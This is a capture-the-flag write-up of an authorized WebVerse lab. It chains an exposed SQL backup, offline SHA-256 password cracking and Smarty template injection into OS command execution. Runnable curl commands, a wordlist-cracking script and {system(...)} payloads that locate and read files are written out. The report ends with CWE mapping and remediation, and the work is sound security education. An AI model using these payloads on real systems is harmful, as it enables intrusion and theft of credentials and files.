> **Publication note:** This article covers a fresh reproduction in an authorized WebVerse lab. The recovered password and digest are omitted, session cookies are redacted, and the flag is shown as `WEBVERSE{REDACTED}`. Copyable requests use placeholders for temporary host, session, object, and secret values.

## Executive Summary

The Nolic challenge combined several weaknesses into a complete external attack path. The standard `robots.txt` file disclosed a backup route, which returned an Apache directory listing with a downloadable SQL dump. The dump contained an administrator account and a fast SHA-256 password digest. An offline test recovered the weak password after 26 candidates without sending password guesses to the target.

The recovered credential opened an administrative session. The dashboard showed one draft post, so I saved every original field before changing anything. In Caido, the draft stayed private and I viewed each result through the authenticated route. The terminal pass had no preview route, so it published the test briefly, checked the public output, and restored the original draft immediately after each step. Every restoration was compared with the saved copy.

Smarty evaluated a harmless arithmetic expression and returned `49`. A later `system()` test returned the operating-system-generated value `58597`, confirming command execution as the web application user. A filename-only search returned one readable flag-shaped candidate. I read only that file, redacted the flag, and stopped after WebVerse accepted it.

> **CONFIRMED FINDING**
>
> Attacker-controlled post content was compiled as Smarty template source and could invoke `system()`. Although the final sink required an authenticated editor, the application itself anonymously exposed the administrator password material needed to satisfy that precondition.

## 1. Report Profile

| FIELD | VALUE |
| --- | --- |
| Platform | WebVerse |
| Lab | Nolic |
| Difficulty | Easy |
| Status | Solved / Verified |
| Reproduction date | Fresh authorized instance |
| Target | `<LAB_ORIGIN>` / `<LAB_HOST>` |
| Primary weakness | Smarty Server-Side Template Injection |
| Verified impact | Authenticated operating-system command execution |
| Initial access | Anonymous SQL backup exposure and offline credential recovery |
| Primary CWE | CWE-1336 |

### Verified Attack Chain

```text
GET /robots.txt
  > /backups/, /admin/, and /login.php disclosed
GET /backups/
  > anonymous Apache directory index
GET /backups/nolic-backup-2025-06-01.sql
  > administrator username and SHA-256 password digest
Offline candidate verification
  > password recovered after 26 candidates
POST /login.php
  > HTTP 302, NOLICSESS, /admin/dashboard.php
Dashboard mapping
  > one draft confirmed
Authenticated draft rendering
  > Smarty arithmetic renders 49
  > system("expr 31415 + 27182") renders 58597
Filename-only search
  > one readable flag-shaped candidate
Final read and restoration
  > WEBVERSE{REDACTED}, original draft state restored
WebVerse submission
  > LAB SOLVED
```

## 2. Scope and Evidence Boundary

Testing stayed inside the vulnerable Nolic lab and followed the evidence already found. I did not perform broad or unrelated enumeration.

- Password testing was performed offline against the digest already exposed by the backup; no online spraying was used.
- Template testing progressed from arithmetic evaluation to a harmless command with a predictable result before any file access.
- File discovery was constrained to selected roots, one filesystem, maximum depth 6, readable regular files, flag-shaped names, and 40 results.
- No reverse shell, persistence, destructive command, privilege escalation, or unrelated file collection was attempted.
- After every temporary body change, the saved snapshot was restored and compared field by field.
- The Caido pass kept `status=draft`. The terminal pass temporarily used `status=published` only long enough to read the result, then restored the original draft before the next test.

Caido captured the proxy requests and responses. Chromium showed the rendered Smarty output, command result, filename search, and final flag. The second pass repeated the chain with `curl`, `jq`, and small Python helpers. Python handled the offline digest check, safe form encoding, and field-by-field restoration checks.

## 3. Evidence-Led Chronological Reproduction

The Caido and terminal passes follow the same path from recon to cleanup. The first pass keeps the original proxy evidence. The second pass shows the complete CLI commands and helper scripts used in a fresh instance.

### 3.1 Caido/Burp Reproduction

#### Step 1: Canonical Host and Public Route Discovery

The fresh instance used `10.100.0.30`. Requesting `robots.txt` by IP returned HTTP 301 with `Location: http://nolic.local/robots.txt`. That redirect revealed the active virtual host without relying on an older lab run.



**Figure 1: Canonical host.** The current instance redirects the IP-based request to `nolic.local/robots.txt`.

**R-01: Canonical `robots.txt` request.**

```http
GET /robots.txt HTTP/1.1
Host: <LAB_HOST>
```

**Expected result:** HTTP 200 on the canonical host with `Disallow` entries for `/backups/`, `/admin/`, and `/login.php`.

```text
Disallow: /backups/
Disallow: /admin/
Disallow: /login.php
```



**Figure 2: Route disclosure.** The canonical file identifies relevant routes but is treated only as reconnaissance; exploitability required direct follow-up.

#### Step 2: Anonymous Backup Discovery and Retrieval

The application-disclosed backup route was followed directly. No adjacent path or filename was guessed.

**R-02: Anonymous backup index.**

```http
GET /backups/ HTTP/1.1
Host: <LAB_HOST>
```

**Expected result:** an anonymously accessible Apache directory index listing the available backup artifact.



**Figure 3: Directory listing.** The HTTP 200 response makes the backup filename and metadata publicly browsable.

**R-03: Listed backup file.**

```http
GET /backups/nolic-backup-2025-06-01.sql HTTP/1.1
Host: <LAB_HOST>
```

**Expected result:** HTTP 200 with the SQL file shown in the directory listing.

The response used `Content-Type: application/sql` and contained a 16,294-byte database dump defining `admin_users`, `posts`, and `admin_sessions`. Its administrator record contained the username `wren` and a 64-character hexadecimal password digest; the digest is redacted from the public figure.



**Figure 4: Backup contents.** The response proves anonymous retrieval of a real SQL dump and privileged credential material. The directory index maps to CWE-548, while the separately verified downloadable backup maps more precisely to CWE-530.

#### Step 3: Limited Offline Credential Recovery

The exposed digest was tested locally against `/usr/share/wordlists/rockyou.txt`. This phase generated no request to Nolic.

**C-01: Executed offline verification helper.**

```text
python3 Nolic_EV06_Offline_SHA256_Recovery.py
```

**Expected result:** a SHA-256 candidate match without online guessing or disclosure of the stored digest or recovered plaintext.



**Figure 5: Offline verification.** A match occurred after 26 candidates and the recovered password was eight bytes long. Digest shape alone was not treated as proof of SHA-256; reproducing the stored value with an actual candidate match confirmed the algorithm and supports CWE-916.

#### Step 4: Authentication and Session Establishment

I logged in once with the recovered credential.

**R-04: Login request shape.**

```http
POST /login.php HTTP/1.1
Host: <LAB_HOST>
Content-Type: application/x-www-form-urlencoded

username=<REDACTED>&password=<REDACTED>
```

**Expected result:** HTTP 302, issuance of a redacted `NOLICSESS` cookie, and a redirect to `/admin/dashboard.php`.



**Figure 6: Authentication.** HTTP 302, session issuance, and the dashboard redirect prove that the offline-recovered credential was accepted.

#### Step 5: Selecting and Saving the Draft

The authenticated dashboard listed six posts: five published and one draft. The only draft was `id=6`, titled “Marginalia for the modern reader,” with slug `marginalia-for-the-modern-reader`.



**Figure 7: Draft selection.** The dashboard shows one draft suitable for testing and avoids changing a published article.

#### Step 6: Draft Baseline, Anonymous Control, and Restoration Snapshot

The editor exposed `title`, `slug`, `excerpt`, `body`, `status`, and `tags`, with the draft option checked. Before mutation, every original value and `status=draft` was saved and hashed.

**C-02: Executed draft-snapshot helper.**

```text
python3 Nolic_EV09_Create_Draft_Snapshot.py
```

**R-05: Authenticated draft baseline.**

```http
GET /post.php?slug=<REDACTED> HTTP/1.1
Host: <LAB_HOST>
Cookie: NOLICSESS=<SESSION_COOKIE>
```

**Expected result:** HTTP 200 for the authenticated administrator while `status=draft` remains unchanged.

**R-06: Equivalent anonymous control.**

```http
GET /post.php?slug=<REDACTED> HTTP/1.1
Host: <LAB_HOST>
```

**Expected result:** HTTP 404 for the same draft route without the session cookie.



**Figure 8: Anonymous check.** The anonymous request cannot open the draft. The same route works only after login and can therefore be used to view each rendering test.

**R-07: Authenticated editor request shape used for each mutation and restoration.**

```http
POST /admin/edit_post.php?id=<OBJECT_ID> HTTP/1.1
Host: <LAB_HOST>
Content-Type: application/x-www-form-urlencoded
Cookie: NOLICSESS=<SESSION_COOKIE>

<title/slug/excerpt/body/status/tags form fields>&status=draft
```

The request structure is included below, while dynamic session, object, and original form values stay as placeholders. In this Caido pass, every later probe changed only the body, kept `status=draft`, checked the authenticated result, and restored all original fields.

#### Step 7: Harmless Smarty Evaluation

The first mutation appended a unique marker containing a harmless arithmetic expression while preserving the original title, slug, excerpt, tags, and draft status.

**P-01: Smarty arithmetic evaluation.**

```smarty
<p>NOLIC_SSTI_A1_{math equation="7*7"}_END</p>
```

**Expected result:** `NOLIC_SSTI_A1_49_END`, with the raw Smarty source absent from the rendered response.

```text
NOLIC_SSTI_A1_49_END
```



**Figure 9: Template evaluation.** The server returns `49` instead of the original Smarty expression, separating template evaluation from storage, reflection, or normal HTML rendering. I restored the complete draft before continuing.

#### Step 8: Harmless Operating-System Command

The next test used a harmless command with a predictable value and no file or state impact.

**P-02: Command-execution proof.**

```smarty
<p>NOLIC_RCE_B1_{system('expr 31415 + 27182')}_END</p>
```

**Expected result:** the dynamic value `58597` appears between the two markers. This confirms command execution, but says nothing yet about file paths or readable files.

During authenticated rendering, the article returned:

```text
NOLIC_RCE_B1_58597 58597_END
```

The value was not present in the stored source. PHP `system()` emits command output and returns its last output line, explaining the duplicated value when the function result is also rendered by the Smarty/PHP path.



**Figure 10: Command execution.** Dynamic operating-system output proves escalation from template evaluation to execution with the web application process's privileges. No reverse shell, persistence, destructive command, or privilege escalation was attempted.

#### Step 9: Negative Control and Filename-Only Search

A short common-path allowlist was tested before broader filename discovery. This prevented an assumed flag location from being presented as evidence.

**P-03: Common-path negative control.**

```smarty
<pre>NOLIC_FLAG_C1_BEGIN {system('for p in /flag /flag.txt /root/flag /root/flag.txt /var/www/flag /var/www/flag.txt /var/www/html/flag /var/www/html/flag.txt /app/flag /app/flag.txt /opt/flag /opt/flag.txt; do [ -r "$p" ] && echo "NOLIC_COMMON_HIT:$p"; done; echo NOLIC_COMMON_DONE')} NOLIC_FLAG_C1_END</pre>
```

**Expected result:** the completion marker renders with no common-path hit.

The negative result was followed by a locator constrained to selected roots, one filesystem, maximum depth 6, readable regular files, flag-shaped filenames, and 40 results. No file content was read during discovery.

**P-04: Filename-only search.**

```smarty
<pre>NOLIC_FLAG_D1_BEGIN {system('find /var/www /opt /app /srv /home /tmp /root /challenge -xdev -maxdepth 6 -type f -readable \( -iname flag -o -iname flag.txt -o -iname "*flag*" \) 2>/dev/null | head -n 40 | sed "s#^#NOLIC_FLAG_CANDIDATE:#"; echo NOLIC_LOCATOR_DONE')} NOLIC_FLAG_D1_END</pre>
```

**Expected result:** at most 40 readable flag-shaped filenames. The Terminal/CLI section later shows the returned path and keeps the file content separate.



**Figure 11: Filename-only search.** One readable candidate was returned. This identifies a path but does not read the file.

#### Step 10: Final Read, Draft Restoration, and WebVerse Confirmation

**P-05: Final read.** The final payload read only the candidate from P-04 and placed the result between unique markers. The Terminal/CLI section shows the exact path and command, while the returned flag stays redacted.

**Expected result:** HTTP 200 with one value matching the WebVerse flag format. The public version replaces it with `WEBVERSE{REDACTED}`.



**Figure 12: Final read.** The candidate from the filename-only search returned the redacted flag between two markers. I did not read any other files or paths.

The original `title`, `slug`, `excerpt`, `body`, `tags`, and `status=draft` values were restored from the captured snapshot rather than by manual editing. A fresh editor response was parsed and every field compared by value, length, and SHA-256 digest.

**C-03 / C-04: Executed restoration helpers.**

```text
python3 Nolic_EV12_Generate_Exact_Restore_Body.py
python3 Nolic_EV12_Verify_Draft_Restoration.py
```



**Figure 13: Restoration verification.** All recorded fields match their original digests, the draft status is restored, no probe marker remains, and `restoration_verified=true`.

The same restore process was captured after the arithmetic, command, common-path, and filename-search checks. I also ran it after the final flag read, but the evidence-upload limit prevented another screenshot. Final cleanup is therefore tester-attested; Figure 13 is not presented as a separate post-flag capture.

I submitted the recovered value to WebVerse. The platform accepted it and marked Nolic solved.



**Figure 14: WebVerse solved state.** WebVerse accepts the recovered value for this instance.

> **WHERE TESTING STOPPED**
>
> The flag was submitted only after the final read and draft restoration. No further enumeration, file access, or exploit expansion followed.

### 3.2 Terminal/CLI Reproduction

I repeated the chain from a clean terminal session with `curl`, `grep`, `jq`, and Python. Replace `<LAB_IP>` with the current instance IP. The public commands also replace the recovered password, digest, and session value with placeholders.

The application had no separate terminal preview route. For the rendering checks, I briefly changed the saved draft to `published`, read the public result, and restored it to `draft` before starting the next test. The restoration script compared every field with the original snapshot.

#### Step 1: Bind the Current Instance and Follow the Disclosed Routes

The first request used the current instance IP. Its redirect supplied the virtual host used by every later command.

```bash
curl -i "http://<LAB_IP>/robots.txt"
```



**Figure 15: Current instance binding.** The IP request returns HTTP 301 and points to `nolic.local/robots.txt`.

I then pinned the virtual host to the same IP and requested the canonical file.

```bash
curl -i \
  --resolve "nolic.local:80:<LAB_IP>" \
  http://nolic.local/robots.txt
```



**Figure 16: Route disclosure.** The response lists `/backups/`, `/admin/`, and `/login.php`.

The disclosed backup route returned an Apache index. I followed the exact filename shown there.

```bash
curl -i \
  --resolve "nolic.local:80:<LAB_IP>" \
  http://nolic.local/backups/

curl -sS -D - \
  --resolve "nolic.local:80:<LAB_IP>" \
  -o nolic-backup-2025-06-01.sql \
  http://nolic.local/backups/nolic-backup-2025-06-01.sql
```



**Figure 17: Backup index.** The server lists `nolic-backup-2025-06-01.sql` without authentication.



**Figure 18: Backup download.** The file returns HTTP 200 as `application/sql` and is saved locally.

#### Step 2: Check the Backup and Recover the Password Offline

The SQL dump contained an `admin_users` record. The command is included, but the stored digest and recovered password are not repeated in the public article.

```bash
grep -nEi \
  'CREATE TABLE.*admin_users|INSERT INTO.*admin_users' \
  nolic-backup-2025-06-01.sql
```

The candidate check stayed local and stopped at the first SHA-256 match.

```python
import hashlib

target = "<REDACTED_SHA256_DIGEST>"
wordlist = "/usr/share/wordlists/rockyou.txt"

with open(wordlist, "rb") as source:
    for tested, line in enumerate(source, start=1):
        candidate = line.rstrip(b"\r\n")

        if hashlib.sha256(candidate).hexdigest() == target:
            print("[+] SHA-256 match confirmed")
            print(f"[+] Candidates tested: {tested}")
            print(f"[+] Password length: {len(candidate)} bytes")
            break
```

The match appeared after 26 candidates. No password guess was sent to Nolic during this step.

#### Step 3: Confirm the Login Contract and Map the Draft

Before logging in, I read the form so the CLI request used the application's actual field names.

```bash
curl -sS -i \
  --resolve "nolic.local:80:<LAB_IP>" \
  http://nolic.local/login.php
```



**Figure 19: Login contract.** The form posts `username` and `password` to `/login.php`. No hidden CSRF field was present in this response.

The login command stored the session in a cookie jar. The public copy keeps the password private.

```bash
curl -sS -i \
  --resolve "nolic.local:80:<LAB_IP>" \
  -c nolic.cookies \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data 'username=wren&password=<REDACTED_PASSWORD>' \
  http://nolic.local/login.php
```

The response returned HTTP 302, a `NOLICSESS` cookie, and `/admin/dashboard.php`. I then mapped the dashboard with the saved session.

```bash
curl -sS \
  --resolve "nolic.local:80:<LAB_IP>" \
  -b nolic.cookies \
  http://nolic.local/admin/dashboard.php \
  | grep -nEi 'edit_post\.php|new_post\.php|logout\.php|draft|published'
```



**Figure 20: Draft mapping.** The dashboard contains five published posts and one draft. The tested object is `/admin/edit_post.php?id=6`.

#### Step 4: Save a Restoration Baseline

I saved the original editor response before changing the post.

```bash
curl -sS \
  --resolve "nolic.local:80:<LAB_IP>" \
  -b nolic.cookies \
  http://nolic.local/admin/edit_post.php?id=6 \
  -o nolic-draft6-original.html
```

The first parser expected `excerpt` to be a `<textarea>`. It was actually an `<input type="text">`, so the snapshot was rejected instead of treating an empty value as valid.



**Figure 21: Rejected snapshot.** The first parser found every required field except `excerpt`. No target change had been made.

```bash
grep -n -B 3 -A 5 'name="excerpt"' nolic-draft6-original.html
```



**Figure 22: Parser correction.** The HTML shows why the first parser missed the value.

The corrected helper requires all six fields, writes the private snapshot with mode `0600`, and prints SHA-256 hashes for later comparison.



```bash
python3 nolic-draft-snapshot.py
```



**Figure 23: Restoration baseline.** `title`, `slug`, `excerpt`, `body`, `tags`, and `status=draft` are all present before testing starts.

#### Step 5: Confirm Smarty Evaluation

The first payload used simple arithmetic.

```smarty
{math equation="7*7"}
```

I appended it to the saved body and changed only the temporary render status.

```bash
curl -sS -i \
  --resolve "nolic.local:80:<LAB_IP>" \
  -b nolic.cookies \
  -c nolic.cookies \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode "title=$(jq -r '.title' private_NOLIC_DRAFT_ID6_SNAPSHOT.json)" \
  --data-urlencode "slug=$(jq -r '.slug' private_NOLIC_DRAFT_ID6_SNAPSHOT.json)" \
  --data-urlencode "excerpt=$(jq -r '.excerpt' private_NOLIC_DRAFT_ID6_SNAPSHOT.json)" \
  --data-urlencode "body=$(jq -r '.body + "\n\n{math equation=\"7*7\"}"' private_NOLIC_DRAFT_ID6_SNAPSHOT.json)" \
  --data-urlencode 'status=published' \
  --data-urlencode "tags=$(jq -r '.tags' private_NOLIC_DRAFT_ID6_SNAPSHOT.json)" \
  'http://nolic.local/admin/edit_post.php?id=6'
```



**Figure 24: Arithmetic save.** HTTP 302 with `saved=1` confirms only that the update was accepted.

The public article output supplied the semantic check.

```bash
curl -sS \
  --resolve "nolic.local:80:<LAB_IP>" \
  'http://nolic.local/post.php?slug=marginalia-for-the-modern-reader' \
  | grep -nE '49|\{math equation="7\*7"\}'
```



**Figure 25: Arithmetic result.** The response contains `49`; the original Smarty source is absent.

The exact restoration command and verifier are kept below for reuse after every later mutation.





```bash
LAB_IP="<LAB_IP>" bash nolic-restore-draft.sh
python3 nolic-verify-restoration.py --ip "<LAB_IP>"
```



**Figure 26: Arithmetic cleanup.** Every saved field matches and the post is back to `draft`.

#### Step 6: Confirm Operating-System Command Execution

The command check used a predictable arithmetic result and did not read a file or change system state.

```smarty
{system('expr 31415 + 27182')}
```

My first inline `jq` attempt failed because the nested quotes broke the local expression. The application returned `Title and body are required`, so I did not count that request as an RCE result.

```bash
curl -sS -i \
  --resolve "nolic.local:80:<LAB_IP>" \
  -b nolic.cookies \
  -c nolic.cookies \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode "title=$(jq -r '.title' private_NOLIC_DRAFT_ID6_SNAPSHOT.json)" \
  --data-urlencode "slug=$(jq -r '.slug' private_NOLIC_DRAFT_ID6_SNAPSHOT.json)" \
  --data-urlencode "excerpt=$(jq -r '.excerpt' private_NOLIC_DRAFT_ID6_SNAPSHOT.json)" \
  --data-urlencode "body=$(jq -r '.body + \"\n\n{system('\''expr 31415 + 27182'\'')}\"' private_NOLIC_DRAFT_ID6_SNAPSHOT.json)" \
  --data-urlencode 'status=published' \
  --data-urlencode "tags=$(jq -r '.tags' private_NOLIC_DRAFT_ID6_SNAPSHOT.json)" \
  'http://nolic.local/admin/edit_post.php?id=6'
```



**Figure 27: Rejected attempt.** The local quoting error produced no accepted probe.



**Figure 28: State check.** All original fields and `status=draft` still match the snapshot.

I moved the same form construction into Python to avoid shell-quoting ambiguity. This public helper keeps the request structure used in the inline session and accepts the payload as one argument.



```bash
python3 nolic-submit-payload.py \
  --ip "<LAB_IP>" \
  "{system('expr 31415 + 27182')}"
```



**Figure 29: Command payload save.** The server accepts the complete form and returns HTTP 302 with `saved=1`.

```bash
curl -sS \
  --resolve "nolic.local:80:<LAB_IP>" \
  'http://nolic.local/post.php?slug=marginalia-for-the-modern-reader' \
  | grep -nE '58597|system\(|expr 31415'
```



**Figure 30: Command result.** The rendered page contains `58597` and not the raw payload. This confirms the move from Smarty evaluation to OS command execution.

I ran the same restore and verification helpers before continuing.



**Figure 31: RCE cleanup.** All fields match and the post is again `draft`.

#### Step 7: Run the Common-Path Negative Control

Before searching, I checked a short list of common locations. The payload prints start and end markers whether or not a readable matching file exists.

```smarty
{system('printf "COMMON_START\n"; for f in /flag /flag.txt /root/flag /root/flag.txt /var/www/flag /var/www/flag.txt /var/www/html/flag /var/www/html/flag.txt /app/flag /app/flag.txt /opt/flag /opt/flag.txt; do [ -r "$f" ] && grep -aoE "WEBVERSE\{[^}]+\}" "$f"; done; printf "COMMON_END\n"')}
```

The full Python request builder used for this stage is visible in the screenshot. The same public helper can submit the complete payload without dropping quotes.

```bash
payload=$(cat <<'PAYLOAD'
{system('printf "COMMON_START\n"; for f in /flag /flag.txt /root/flag /root/flag.txt /var/www/flag /var/www/flag.txt /var/www/html/flag /var/www/html/flag.txt /app/flag /app/flag.txt /opt/flag /opt/flag.txt; do [ -r "$f" ] && grep -aoE "WEBVERSE\{[^}]+\}" "$f"; done; printf "COMMON_END\n"')}
PAYLOAD
)

python3 nolic-submit-payload.py --ip "<LAB_IP>" "$payload"
```



**Figure 32: Common-path control save.** The command is shown with the exact allowlist used in the run.

```bash
curl -sS \
  --resolve "nolic.local:80:<LAB_IP>" \
  'http://nolic.local/post.php?slug=marginalia-for-the-modern-reader' \
  | grep -nE 'COMMON_START|COMMON_END|WEBVERSE\{'
```



**Figure 33: Negative result.** Both markers render, but no flag value appears between them.



**Figure 34: Common-path cleanup.** The draft matches the original snapshot before file discovery begins.

#### Step 8: Search for a Readable Flag-Shaped Filename

The next command searched selected roots, stayed on one filesystem, limited depth to six, required readable regular files, and stopped after 40 results. It returned filenames only.

```smarty
{system('find /var/www /opt /app /srv /home /tmp /root /challenge -xdev -maxdepth 6 -type f \( -name flag -o -name flag.txt -o -iname "*flag*" \) -readable 2>/dev/null | head -40')}
```

```bash
payload=$(cat <<'PAYLOAD'
{system('find /var/www /opt /app /srv /home /tmp /root /challenge -xdev -maxdepth 6 -type f \( -name flag -o -name flag.txt -o -iname "*flag*" \) -readable 2>/dev/null | head -40')}
PAYLOAD
)

python3 nolic-submit-payload.py --ip "<LAB_IP>" "$payload"
```



**Figure 35: Filename search save.** The source shows every root and limit used by the command.

```bash
curl -sS \
  --resolve "nolic.local:80:<LAB_IP>" \
  'http://nolic.local/post.php?slug=marginalia-for-the-modern-reader' \
  | grep -nE '/[^< ]*[Ff][Ll][Aa][Gg][^< ]*'
```



**Figure 36: Candidate path.** The search returns `/home/wren/flag.txt`. The duplicate line comes from the same Smarty/PHP rendering behavior seen with `system()` earlier. No file content was read here.



**Figure 37: Search cleanup.** The original draft is restored before the final read.

#### Step 9: Read the Confirmed Candidate and Restore the Draft

The final payload read only the candidate returned by the previous step.

```smarty
{system('cat /home/wren/flag.txt')}
```

```bash
python3 nolic-submit-payload.py \
  --ip "<LAB_IP>" \
  "{system('cat /home/wren/flag.txt')}"

curl -sS \
  --resolve "nolic.local:80:<LAB_IP>" \
  'http://nolic.local/post.php?slug=marginalia-for-the-modern-reader' \
  | grep -aoE 'WEBVERSE\{[^}]+\}'
```



**Figure 38: Exact read save.** The request reads only the path found in Figure 36. The terminal output containing the literal flag is intentionally not published.

The final response matched the WebVerse flag format. I restored the original draft one last time and reran the complete field comparison.



**Figure 39: Final cleanup.** All five content hashes match, `status=draft` is restored, and `restoration_verified=true`.

> **TERMINAL RESULT**
>
> The CLI pass reproduced the same chain as Caido: public backup exposure, offline password recovery, authenticated Smarty evaluation, OS command execution, one controlled filename search, one exact read, and a verified final restoration.

## 4. Vulnerability Classification

| ROLE | CWE | EVIDENCE-BASED RELEVANCE |
| --- | --- | --- |
| Primary | CWE-1336 | Attacker-controlled post content was evaluated as Smarty template source. |
| Supporting | CWE-548 | Apache exposed an anonymous directory index for `/backups/`. |
| Supporting | CWE-530 | The listed SQL backup was directly downloadable without authentication. |
| Supporting | CWE-916 | A fast SHA-256 password representation enabled inexpensive offline guessing. |
| Consequence | CWE-78 | The injected Smarty expression invoked `system()` and returned dynamic OS command output. |

CWE-1336 is the primary mapping because the application compiled user-controlled content as a Smarty template. CWE-78 covers the confirmed command-execution result. The backup and password mappings explain how an external attacker obtained a valid session.

## 5. False-Positive Controls

The conclusion does not rely on a single response or assumption:

1. `robots.txt` was treated as reconnaissance until `/backups/` was requested directly.
2. The directory listing was separated from confirmed download of the exact SQL artifact.
3. The digest length alone did not prove SHA-256. A matching offline candidate did.
4. Recovered credentials were not considered valid until the application issued a session and loaded the dashboard.
5. Dashboard state and the checked editor value identified `id=6` as the real draft.
6. The no-cookie replay returned 404 while the authenticated draft baseline returned 200.
7. Arithmetic evaluation separated SSTI from reflection.
8. Dynamic OS-generated output separated command execution from a static marker.
9. A common-path negative control rejected assumed flag locations.
10. The filename-only search returned only filenames; file content was read in a separate final step.
11. Captured restoration cycles used full field equality rather than visual inspection.
12. WebVerse accepted the recovered flag.

## 6. Impact

The chain gives an external attacker a path from anonymous access to operating-system command execution. After login, commands run with the privileges of the web application process. In this reproduction, I read one flag file and stopped.

In production, the same access could expose application secrets, environment variables, source code, database credentials, or other files available to the service account. It might also allow content changes or persistence if permissions permit. I did not test any of those broader outcomes.

The individual findings have different severity, but the full path from a public backup to command execution is critical. Authentication does not break that path because the same application exposed the password material needed to log in.

## 7. Remediation

### Remove Backups From the Web Tier

Store database dumps outside publicly served directories in access-controlled backup infrastructure. Add deployment checks for `.sql`, `.db`, `.sqlite`, `.bak`, `.dump`, `.zip`, and archive files. Disable Apache directory indexing as defense in depth, not as a substitute for removing public files.

### Modernize Credential Storage

Replace general-purpose SHA-256 password storage with Argon2id or another reviewed password-specific KDF using unique salts and an appropriate work factor. Force credential resets after any backup exposure and enforce strong passwords, breached-password screening, rate limiting, monitoring, and multi-factor authentication.

### Treat Post Content Strictly as Data

Assign stored post content as data inside a fixed Smarty template. Do not compile database-controlled body text through string templates or equivalent dynamic template APIs. Sanitize permitted rich-text HTML with an allowlist while ensuring template syntax never reaches the Smarty compiler.

### Restrict Template and Process Capabilities

Enable a restrictive Smarty security policy and allowlist only required functions. Remove access to `system`, `exec`, `shell_exec`, `passthru`, `proc_open`, and related primitives. Run the application as a dedicated least-privileged service account that cannot traverse or read unrelated home directories; add AppArmor, SELinux, container, or equivalent confinement where appropriate.

## 8. Validation After the Fix

- `/backups/` and the former SQL URL should be unreachable or return a non-disclosing denial.
- Deployment artifacts and the web root should contain no backup or database exports.
- Password records should use the intended KDF; legacy SHA-256 records should be invalidated or rehashed after verified login.
- Harmless Smarty syntax submitted through the editor should render literally or be safely encoded.
- Template-callable functions should be unable to spawn operating-system processes.
- The web-service account should be unable to traverse or read unrelated user home directories.
- Published and draft posts should preserve their intended access behavior for authenticated and anonymous clients.

## Conclusion

Nolic shows how a public backup, weak password storage, and unsafe template rendering can combine into command execution. The path was reproduced step by step: download the backup, verify the digest offline, log in, select and save the draft, confirm Smarty evaluation, run a harmless command, locate one filename, read that file, restore the draft, and submit the flag to WebVerse.

The first fixes should be removing backups from the web tier and stopping untrusted post content from being compiled as Smarty source. Either change would break a major part of the observed chain. A complete fix also requires modern password hashing and a least-privilege application process.
